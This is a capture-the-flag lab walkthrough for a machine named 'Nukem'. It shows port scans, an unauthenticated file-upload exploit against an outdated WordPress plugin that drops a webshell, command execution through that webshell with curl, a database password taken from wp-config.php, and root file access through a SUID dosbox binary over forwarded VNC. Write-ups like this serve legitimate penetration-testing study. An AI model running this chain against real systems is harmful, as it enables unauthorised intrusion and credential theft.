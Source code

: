 # Nukem

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.183.105
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 18:50 +08
Nmap scan report for 192.168.183.105
Host is up (0.17s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
3306/tcp  open  mysql
5000/tcp  open  upnp
13000/tcp open  unknown
36445/tcp open  unknown
```

RDP is open. Ran a detailed scan as well:

```
$ sudo nmap -p 80,5000,13000 -sC -sV --min-rate 3000 192.168.183.105
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 18:53 +08
Nmap scan report for 192.168.183.105
Host is up (0.18s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.46 ((Unix) PHP/7.4.10)
|_http-server-header: Apache/2.4.46 (Unix) PHP/7.4.10
|_http-title: Retro Gamming &#8211; Just another WordPress site
|_http-generator: WordPress 5.5.1
5000/tcp  open  http    Werkzeug httpd 1.0.1 (Python 3.8.5)
|_http-title: 404 Not Found
13000/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Login V14
```

First thing I took note of was the outdated Wordpress site on port 80.

### Wordpress --> RCE

I ran a `wpscan` on the port 80 application.&#x20;

```
$ wpscan --api-token <API> --enumerate p,t,u --url http://192.168.183.105
```

There were loads of vulnerabilities, but the one that looked the easiest to exploit was the Simple File List RCE:

```
[i] Plugin(s) Identified:

[+] simple-file-list
 | Location: http://192.168.183.105/wp-content/plugins/simple-file-list/
 | Last Updated: 2023-06-08T11:52:00.000Z
 | [!] The version is out of date, the latest version is 6.1.8
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 6 vulnerabilities identified:
 |
 | [!] Title: Simple File List < 4.2.3 - Unauthenticated Arbitrary File Upload RCE
 |     Fixed in: 4.2.3
 |     References:
 |      - https://wpscan.com/vulnerability/365da9c5-a8d0-45f6-863c-1b1926ffd574
 |      - https://simplefilelist.com/
 |      - https://plugins.trac.wordpress.org/changeset/2286920/simple-file-list
 |      - https://packetstormsecurity.com/files/160221/
```

Unauthenticated = good in this case. `searchsploit` shows that there are 2 exploits publicly available:

```
$ searchsploit Wordpress Plugin simple file list
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
WordPress Plugin Simple File List 4.2.2 - Arbitrary File U | php/webapps/48979.py
WordPress Plugin Simple File List 4.2.2 - Remote Code Exec | php/webapps/48449.py
----------------------------------------------------------- ---------------------------------
```

I found that the first one worked better. Within the exploit, I also changed the payload to drop a webshell instead:

<figure><img src="../../../.gitbook/assets/image (3) (14).png" alt=""><figcaption></figcaption></figure>

We can then run the exploit and confirm that it works:

```
$ python3 48979.py http://192.168.183.105
[ ] File 4345.png generated with password: 7a1538697392c42d7dbfb559c6fb67aa
[ ] File uploaded at http://192.168.183.105/wp-content/uploads/simple-file-list/4345.png
[ ] File moved to http://192.168.183.105/wp-content/uploads/simple-file-list/4345.php
[+] Exploit seem to work.
[*] Confirmning ...

$ curl http://192.168.183.105/wp-content/uploads/simple-file-list/4345.php?cmd=id
uid=33(http) gid=33(http) groups=33(http)
```

Tested loads of ports, and only reverse shells to port 80 work:

<figure><img src="../../../.gitbook/assets/image (595).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Commander Creds

The `/srv/html/wp-config.php` file contained some creds for the user `commander`:

```php
/** MySQL database username */
define( 'DB_USER', 'commander' );

/** MySQL database password */
define( 'DB_PASSWORD', 'CommanderKeenVorticons1990' );
```

<figure><img src="../../../.gitbook/assets/image (9) (3).png" alt=""><figcaption></figcaption></figure>

### VNC + Dosbox SUID

I checked the SUID binaries available and found `dosbox` was one of them.

```
[commander@nukem ~]$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/dosbox
```

`dosbox` SUID privilege escalation exploits require a GUI to work, and conveniently, VNC on port 5901 is available on the machine:

```
[commander@nukem ~]$ netstat -tulpn 
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:5901          0.0.0.0:*               LISTEN      401/Xvnc            
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:36445           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:13000           0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::3306                 :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::36445                :::*                    LISTEN      - 
```

Also, within the user's directory, there's a `.vnc` file which presumably contains credentials we need:

```
[commander@nukem ~]$ ls -la .vnc
total 20
drwxr-xr-x  2 commander root      4096 Sep 18  2020 .
drwxr-xr-x 11 commander commander 4096 Jul 12 11:03 ..
-rw-r--r--  1 commander root        54 Sep 18  2020 config
-rw-r--r--  1 commander commander 3479 Feb 17 19:27 nukem:1.log
-rw-------  1 commander commander    8 Sep 18  2020 passwd
```

We can transfer the small `passwd` file over to our machine via `base64` encoding. Then, we can port forward VNC via `chisel`. Using `vncviewer`, we can connect to it:

```
$ vncviewer -passwd passwd 127.0.0.1:5901
```

<figure><img src="../../../.gitbook/assets/image (5) (15).png" alt=""><figcaption></figcaption></figure>

Within the terminal we can run this:

```
dosbox -c 'mount c /' -c "type c:$LFILE"
```

This would spawn a `dosbox` instance (which is basically a cmd.exe instance). Using the `C:` command, we can view the `root` flag:

<figure><img src="../../../.gitbook/assets/image (6) (17).png" alt=""><figcaption></figcaption></figure>

There's no scrolling on this Dosbox instance, and the handling of control characters is a little inaccurate (so you can't really backspace). Other than that, we have `root` access over the file system and can do whatever we want.&#x20;

Rooted!
